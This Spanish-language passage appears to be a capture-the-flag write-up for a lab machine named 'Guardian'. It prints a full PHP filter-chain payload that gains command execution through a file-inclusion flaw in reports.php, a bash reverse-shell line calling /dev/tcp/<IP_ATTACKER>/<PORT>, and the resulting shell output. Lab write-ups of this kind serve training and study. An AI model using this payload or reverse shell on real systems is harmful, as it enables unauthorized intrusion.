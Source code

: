 ```
t.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Ahora con todo este codigo, vamos a coger lo que empieza por `php://...` y poner en la `URL` algo asi:

```
URL = http://portal.guardian.htb/admin/reports.php?cmd=whoami&report=<CODE_PHP_GENERATE>,enrollment.php
```

Info:

```
  www-data
�
P�����
```

Veremos que funciona, tambien es importante ponerle al final un archivo que exista en el sistema para que no te de un error, en mi caso utilice `enrollment.php` para que funcione.

Ahora vamos a generar una `reverse shell`, vamos a ponernos a la escucha de esta forma:

```shell
nc -lvnp <PORT>
```

En la `URL` pondremos lo siguiente:

```
URL = http://portal.guardian.htb/admin/reports.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP_ATTACKER>/<PORT> 0>%261"&report=<CODE_PHP_GENERATE>,enrollment.php
```

Cuando lo enviemos si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.11.84] 44064
bash: cannot set terminal process group (920): Inappropriate ioctl for device
bash: no job control in this shell
www-data@guardian:~/portal.guardian.htb/admin$ whoami
whoami
www-data
```
